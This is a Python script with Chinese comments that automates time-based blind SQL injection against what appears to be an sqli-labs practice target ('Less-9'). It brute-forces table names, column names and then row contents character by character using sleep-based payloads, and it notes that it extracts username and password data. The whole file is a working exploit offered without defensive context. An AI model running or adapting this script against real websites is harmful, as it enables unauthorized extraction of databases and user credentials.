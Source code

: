 # injection_sql.py
import requests
import time


def req(url):
    start = time.time()
    requests.get(url=url)
    end = time.time() - start
    if end > hour:
        return True
    return False


hour = 1.5
len = 0
# 截取表名的长度
for length in range(1, 500):
    flag = req(f"http://sqli.com/Less-9/?id=1' and if (length((select group_concat(table_name) from information_schema.tables where table_schema = schema())) = {length}, sleep({hour}), sleep(0) )--+")
    if flag:
        print(f"表名的长度为：{length}")
        len = length
        break

# 截取表名的内容
tables = []
tmp = ''
for length in range(1, len + 1):
    for a in range(33, 127):             # ascii码 33-126
        flag = req(f"http://sqli.com/Less-9/?id=1' and if (substr((select group_concat(table_name) from information_schema.tables where table_schema = schema()),{length},1) = '{chr(a)}', sleep({hour}), sleep(0) )--+")
        if flag:
            print(f"{chr(a)}", end='')
            tmp += chr(a)
            break

tables = tmp.split(',')       # EMAILS,REFERERS,UAGENTS,USERS
print('')
print(tables)
index = int(input("请输入要爆破的表名："))
table_name = tables[index - 1]

# 截取数据库的列名的长度
column_len = 0
for length in range(1, 500):
    flag = req(f"http://sqli.com/Less-9/?id=1' and if (length((select group_concat(column_name) from information_schema.columns where table_schema = schema() and table_name ='{table_name}')) = {length}, sleep({hour}), sleep(0) )--+")
    if flag:
        print(f"列名的长度为：{length}")
        column_len = length
        break

# 截取数据库的列名的内容
columns = []
tmp = ''
for length in range(1, column_len + 1):
    for a in range(33, 127):
        flag = req(f"http://sqli.com/Less-9/?id=1' and if (substr((select group_concat(column_name) from information_schema.columns where table_schema = schema() and table_name ='{table_name}'),{length},1) = '{chr(a)}', sleep({hour}), sleep(0) )--+")
        if flag:
            print(f"{chr(a)}", end ='')
            tmp += chr(a)
            break
columns = tmp.split(',')
print('')
print(columns)
column_name = input("请输入要爆破的列名:")

# 爆破数据库列名下的表格的长度
content_len = 0
for length in range(1, 10000):
    flag = req(f"http://sqli.com/Less-9/?id=1' and if (length((select group_concat({column_name}) from {table_name})) = {length}, sleep({hour}), sleep(0) )--+")
    if flag:
        print(f"{table_name}\t{column_name}\t长度是:{length}")
        content_len = length
        break

# 爆破数据库列名下的表格的数据        select (username,password) from users
for length in range(1, content_len + 1):
    for a in range(33, 127):
        flag = req(f"http://sqli.com/Less-9/?id=1' and if (substr((select group_concat({column_name}) from {table_name}),{length},1) = '{chr(a)}', sleep({hour}), sleep(0) )--+")
        if flag:
            print(f"{chr(a)}", end='')
            break
    
